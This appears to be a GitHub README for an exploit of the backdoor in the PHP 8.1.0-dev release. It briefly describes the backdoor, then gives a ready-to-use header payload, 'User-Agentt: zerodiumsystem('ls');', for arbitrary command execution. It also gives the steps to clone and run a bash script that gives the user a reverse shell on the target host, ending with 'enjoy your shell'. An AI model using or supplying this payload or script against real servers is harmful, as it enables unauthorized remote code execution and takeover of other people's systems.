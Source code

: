 # PHP-8.1.0-dev - Remote Code Execution 

## Description

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following bash exploit uses the backdoor to provide a shell on the host. A simple proof of concept file.

## Usage

You can exploit this manually by adding the 

`User-Agentt: zerodiumsystem('ls');`

header in Burp Suite or just run the script with the host IP, your own IP + port (for the reverse shell) and enjoy your shell:

`$ git clone https://github.com/PenTestical/PHP-8.1.0-dev_RCE && cd PHP-8.1.0-dev_RCE/`

`$ chmod +x exploit.sh`

`$ bash exploit.sh`
